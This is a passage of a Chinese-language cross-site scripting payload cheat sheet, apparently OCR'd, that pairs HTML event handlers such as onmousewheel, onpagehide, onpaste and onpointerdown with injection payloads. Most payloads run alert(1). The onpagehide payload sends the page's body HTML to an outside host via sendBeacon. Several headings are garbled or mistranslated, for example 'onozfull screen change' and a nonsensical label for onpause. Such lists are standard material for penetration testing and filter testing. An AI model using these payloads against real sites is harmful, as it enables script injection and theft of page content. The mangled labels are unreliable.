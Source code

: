 #### **onmousewheel**

当鼠标滚轮滚动时激发

```
<xss onmousewheel=alert(1) style=display:block>requires scrolling
```

#### **onozfull screen change**

当视频更改全屏状态时激发

```
<video onmozfullscreenchange=alert(1) src=validvideo.mp4 controls>
```

#### **onpagehide**

当页面更改时激发

```
<body onpagehide=navigator.sendBeacon('//https://ssl.portswigger-labs.net/',document.body.innerHTML)>
```

#### **onpaste**

需要你粘贴一段文字

```
<a onpaste="alert(1)" contenteditable>test</a>
```

#### **开启原因**

需要单击元素才能暂停

```
<audio autoplay controls onpause=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **onpointerdown**

当鼠标按下时激发

```
<xss onpointerdown=alert(1) style=display:block>XSS</xss>
```

#### **on pointer 输入**

当鼠标进入时激发

```
<xss onpointerenter=alert(1) style=display:block>XSS</xss>
```

#### **onpointerleave**

当鼠标离开时激发
